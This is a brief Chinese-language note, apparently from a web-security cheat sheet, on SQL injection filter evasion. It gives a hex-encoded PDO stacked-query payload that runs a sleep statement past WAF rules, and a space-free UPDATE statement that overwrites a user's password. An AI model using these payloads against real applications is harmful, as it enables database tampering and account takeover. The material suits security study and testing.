

## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

## 不用空格和`/*`执行语句

```SQL
update(user)set`password`='1'where`id`=1;
```

